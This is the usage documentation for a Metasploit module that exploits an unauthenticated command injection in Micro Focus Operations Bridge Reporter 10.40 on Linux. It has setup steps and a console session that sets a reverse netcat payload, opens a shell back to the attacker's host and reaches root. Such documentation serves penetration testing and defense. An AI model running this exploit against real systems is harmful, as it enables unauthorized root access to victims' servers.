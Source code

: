 ## Vulnerable Application

This module exploits a command injection vulnerability on *login* (yes, you read that right) that affects Micro Focus Operations
Bridge Reporter on Linux, versions 10.40 and below.
It's a straight up command injection, with little escaping required and it works before authentication.
This module has been tested on the Linux 10.40 version. Older versions might be affected, check the advisory for details.

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Home

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.
This vulnerability only affects Linux installations.

All details about this vulnerabilitu can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obr_cmd_injection`
4. `set payload PAYLOAD`
5. `set rhost TARGET'
6. `set lhost YOUR_IP`
7. `run`
8. You should get a shell.

## Scenarios

```
msf6 > use exploit/linux/http/microfocus_obr_cmd_injection
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set payload payload/cmd/unix/reverse_netcat
payload => cmd/unix/reverse_netcat
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set rhost 10.0.0.10
rhost => 10.0.0.10
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.10:21412 - Payload sent, now wait for Shelly, if she doesn't arrive try again!
[*] Command shell session 1 opened (10.0.0.1:4444 -> 10.0.0.10:51806) at 2021-04-23 20:57:02 +0700

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
